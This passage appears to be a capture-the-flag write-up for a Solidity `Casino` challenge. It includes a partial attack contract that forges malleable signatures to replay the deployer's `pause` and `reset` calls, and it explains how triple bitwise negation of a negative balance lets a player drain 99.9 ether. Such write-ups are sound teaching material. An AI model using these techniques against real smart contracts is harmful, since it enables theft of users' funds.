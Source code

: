 <br/>

And this is how the `malleability` function can be used to forge signatures to "replay" `pause(abi.encodePacked(r, s, v), salt);` to pause / unpause the `Casino` and `reset(abi.encodePacked(r, s, v), payable(system), 1 ether, salt);` executed during the challenge deployment. The hexadecimal values you see are the salt values used by the original deployer:

```solidity
...
contract Attack {
    ...

    function attack() external payable {
        ...
        bytes memory origSignature = hex"<ORIGINAL DEPLOYER SIGNATURE FOR PAUSE>";
        bytes memory newSignature = malleability(origSignature);
        console.logBytes(newSignature);

        casino.pause(newSignature, 0x5365718353c0589dc12370fcad71d2e7eb4dcb557cfbea5abb41fb9d4a9ffd3a);
        ...

        origSignature = hex"<ORIGINAL DEPLOYER SIGNATURE FOR RESET>";
        newSignature = malleability(origSignature);
        
        casino.reset(newSignature, payable(<ORIGINAL SYSTEM ADDRESS FROM SIGNATURE>), 1 ether, 0x7867dc2b606f63c4ad88af7e48c7b934255163b45fb275880b4b451fa5d25e1b);
        ...
    }
    ...
}
...
```

<br/>

### Improper bit manipulation 🧮

To solve the task, the player must make the `Casino` pay. To make the `Casino` transfer all of its funds (`100 ether` deposited at the beginning of the deployment process) to the player, one can exploit the "optimization trick". Imagine the following scenario:
1. The malicious player executes `reset` to reset the `Casino`.
2. The malicious player has `uint256(int256(-99.9 ether - 1 wei))` on their balance within the `Casino`:
    > `uint256(int256(-99.9 ether - 1 wei))` = `uint256(-99900000000000000001 wei)` = `115792089237316195423570985008687907853269984665640564039357684007913129639935 wei` = `1111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111110101001010110011011111001110100101011111010011110011111111111111111`;
3. Triple bitwise negation happens:
    > `balance = ~~~uint256(int256(-99.9 ether - 1 wei))` → `balance = ~~~uint256(-99900000000000000001 wei)` → `balance = ~115792089237316195423570985008687907853269984665640564039357684007913129639935 wei` → `balance = ~1111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111110101001010110011011111001110100101011111010011110011111111111111111` → `balance = 0000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000001010110101001100100000110001011010100000101100001100000000000000000` → `balance = 99900000000000000000 wei` → `balance = 99.9 ether`;
4. `Casino` has this amount of ether, and the malicious player, as a holder, receives the funds upon `reset`.

